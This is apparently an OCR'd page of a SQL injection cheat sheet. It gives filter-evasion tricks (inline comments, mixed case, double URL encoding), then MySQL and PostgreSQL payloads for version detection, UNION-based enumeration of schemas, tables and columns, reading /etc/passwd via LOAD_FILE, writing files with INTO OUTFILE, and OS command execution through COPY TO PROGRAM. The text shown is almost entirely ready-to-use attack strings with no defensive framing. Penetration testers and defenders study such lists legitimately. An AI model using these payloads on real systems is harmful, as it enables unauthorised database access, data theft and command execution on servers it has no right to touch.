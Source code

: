 ```sql
SELECT -> SEL/**/ECT
AND -> AN/**/D
OR -> O/**/R

-- Case variations
UnIoN sElEcT
uNiOn SeLeCt

-- Double encoding
%2527 -> %27 -> '
%252f -> %2f -> /
```

## 🛠️ Database-Specific Payloads

### MySQL Payloads
```sql
-- Version detection
' AND @@version LIKE '%MySQL%'--

-- Database enumeration
' UNION SELECT schema_name FROM information_schema.schemata--

-- Table enumeration
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()--

-- Column enumeration
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--

-- File operations
' UNION SELECT LOAD_FILE('/etc/passwd')--
' INTO OUTFILE '/tmp/output.txt'--
```

### PostgreSQL Payloads
```sql
-- Version detection
' AND version() LIKE '%PostgreSQL%'--

-- Database enumeration
' UNION SELECT datname FROM pg_database--

-- Table enumeration
' UNION SELECT tablename FROM pg_tables WHERE schemaname='public'--

-- Column enumeration
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--

-- Command execution
'; COPY (SELECT '') TO PROGRAM 'id'--
```
